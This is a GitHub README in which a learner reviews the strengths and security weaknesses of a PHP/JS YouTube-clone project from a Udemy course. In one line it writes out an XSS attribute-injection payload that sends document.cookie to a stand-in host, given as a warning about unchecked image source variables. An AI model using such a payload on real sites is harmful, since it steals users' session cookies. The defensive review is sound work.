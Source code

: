 # youtube-php-noframework-project
PHP/JS project with udemy course - Youtube clone, including API, ajax, frontend, backend, uploads and all sorts of functionalities </br>
course link - https://www.udemy.com/course/youtube-clone/ </br>

# Strengths: </br>
- Uses PDO and bind parameters </br>
- Uses sha512 hash </br>
- Uses sanitizing user input </br>
- Uses validation of user input </br>
- Uses error messages (that are stored in Constants class as public static) with validation functions (the idea of error array displaying all validation errors that became some kind
of standard instead of sloppy code that would display first error found and then if on resubmit this error goes away would show another one - such things used to happen
in the internet back in the day :) ) </br>
- Code is well structured, good OOP, descriptive names of classes and functions and keeping some kind of standard for the whole project </br>
- Uses regular expressions, built in php functions </br>
- Creates an API he accesses by javascript ajax (although I will never understand why backend php developers are so obsessed with using libraries like jQuery here or axios of example -
javascript fetch API can get the job done without introducing external dependencies and times when js used obscure XmlHTTPRequest are long gone...)</br>
- Some really good CSS... Im not CSS-frontend oriented but worth considering using sass and/or separating one huge style.css</br>
- Use of .text() instead of .html() in jQuery section (idk if its worth mentionting, but some people still let users edit innerHTML of the element, which is kind of like schoolar's
checkmate in terms of security) </br> 
- It is really good, really lengthy project, introducing idea of designing, creating YouTube clone, having API and a lot of client-server communication,
 kind of reactive while using just PHP and JS with no frontend framework, really well structured and preserving one style, one well-read convention through the whole project. </br>
 
# Weaknesses: </br>

- Does not provide types while binding parameters</br>
- Binds parameters before declaring a variable so it "shows in red" in code editor</br>
- I do not see any CORS mechanism in api </br>
- No validation in api whether routes are accessed by POST method or some other HTTP verb </br>
- No use of autoloading feature of any kind while having lengthy imports </br>
- No use of any templating engine </br>
- Using exec() and shell_exec() is always a red alert for me </br>
- I always use "filter_input(INPUT_SERVER, 'PHP_SELF', FILTER_SANITIZE_URL);" on PHP_SELF... just like exec(), it is some kind of red alert for me </br>
- Aside frome critique, I cannot expect one course to cover all sorts of topics, including frontend, security and so on... It is lengthy enough as a good learning project
and good enough for me to show it off that Ive completed it </br>
- EDIT: Been going through code again (since I completed the course some time ago and now im just registering my work) and just noticed 
use of sizeof() alias for count()... It is a bad habit bc it cofuses people who know laguages like C/C++ and expect information of memory allocated from such name...
To be honsest, I have no idea what the creators of PHP had in mind creating such a confusing alias. There are a lot of tricky things that exist both in C and PHP - 
some function names, for(;;) loop, printf("%d", printf("Hello world!")), passing parameters by reference like in C++ and so on... So why name something not
related to memory allocation at all sizeof - I dont know. But I believe one should just not use this alias at all. </br>
- EDIT: In this project we used hard-coded default profile picture, but if it was some real project I would probably make sure that in line here: </br>
\<img src='$coverPhotoSrc' class='coverPhoto'\></br>
$coverPhotoSrc variable will never turn into something like: ' onerror="this.src='http://evil.server/exploit.php?'+document.cookie" />. </br>
It is always better to double check everything, especially if it was some real life scenario and not Udemy course project, that much I know...</br>
- EDIT: Again - profile pic is hardcoded path here but it is worth remembering that uploaded pictures should be rather re-processed with
gd library rather than saved as they come... Another thing to watch out </br>
- EDIT: Just as I secure image files uploaded by the user by copying the contents rather than saving them with gd library I thought, maybe stupidly,
that maybe there is a way to copy the contents of the audio file like that. I mean I dont know what audio file can cause in terms of security,
people say its safe, no executable code, can do buffer overflow like any file but thats it. And of course I know, in linux shell you can copy any file,
some people might not know, but its not only for text files, you can copy images, music as well i think, but using shell exec is a very bad thing.
Plus, when I copy image I do not copy/paste file, I record the contents and output them in another image. Any malicious stuff or exif data
(the way I see it, but something so record those data and store them somwhere is also worth introducing) is not copied.
So equivalent of this in audio files would be playing and recording them. So what im looking for is stupid, also invloves running the file anyways,
probably takes a lot of memory (thats why we destroy image after the job is done in gd... if we close db conncetions in those more advanced projects is
another thing bothering me) but it led me to another interesting problem: not allowing users to download audio files, just letting them to listen, which
makes a lot of sense from the perspective of system design and system intended use. Worth considering </br>


